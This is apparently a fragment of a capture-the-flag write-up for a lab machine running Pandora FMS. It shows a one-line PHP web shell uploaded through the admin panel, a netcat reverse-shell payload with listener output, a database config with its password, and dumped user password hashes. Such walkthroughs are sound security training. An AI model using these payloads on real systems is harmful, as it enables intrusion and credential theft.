 Using the Pandora FMS admin functionality, add a php rce file
```php
# rce.php contents:
<?php system($_REQUEST['cmd']); ?>
```

![[Pasted image 20220420232959.png]]
Then navigate to the file manually and execute commands
![[Pasted image 20220420233050.png]]
Use this payload URL encoded to catch a reverse shell as matt
```bash
# payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9001>/tmp/f

# listener
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.136] 54648
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")' 
matt@pandora:/var/www/pandora/pandora_console/images/test_dir$
```
*Note there is now a key for matt's user*
```php
# db stuff from config
?php
// File generated by centos kickstart
$config["dbtype"] = "mysql";            
$config["dbname"]="pandora";            
$config["dbuser"]="pandora";            
$config["dbpass"]="PandoraFMSSecurePass2021";
$config["dbhost"]="localhost";                  
$config["homedir"]="/var/www/pandora/pandora_console";
$config["homeurl"]="/pandora_console";  
error_reporting(0); 
$ownDir = dirname(__FILE__) . '/';
include ($ownDir . "config_process.php");
?>

```
```sql
-- FROM DB
+---------+----------------------------------+
| id_user | password                         |
+---------+----------------------------------+
| admin   | ad3f741b04bd5880fb32b54bc4f43d6a |
| daniel  | 76323c174bd49ffbbdedf678f6cc89a6 |
| matt    | f655f807365b6dc602b31ab3d6d43acc |
+---------+----------------------------------+
```
